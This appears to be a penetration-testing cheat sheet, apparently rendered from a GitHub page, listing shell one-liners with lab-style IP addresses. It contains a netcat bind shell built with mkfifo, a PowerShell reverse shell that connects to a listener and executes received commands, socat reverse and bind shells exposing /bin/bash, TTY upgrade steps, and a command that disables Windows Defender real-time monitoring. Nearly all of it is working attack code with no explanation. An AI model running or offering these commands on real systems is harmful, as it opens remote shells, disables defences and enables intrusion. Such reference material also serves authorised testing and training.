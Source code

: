```bash
nc -nv <ip_address> <port>
```

### Bind shell using netcat

```bash
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l 10.129.41.200 7777 > /tmp/f
```

### PowerShell Reverse Shell

```powershell
### PowerShell one-liner used to connect back to a listener
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

### Reverse Shell Upgrades

### Python Shell Upgrade

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

### Full TTY Upgrade

```bash
stty raw -echo; fg
reset
xterm
```

### Socat Reverse Shell

```bash
socat TCP:10.10.14.113:443 EXEC:/bin/bash
```

### Socat Listener

```bash
socat TCP-LISTEN:443,reuseaddr,fork EXEC:/bin/bash
```

### Disable Windows Defender Real-Time Monitoring

```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
```
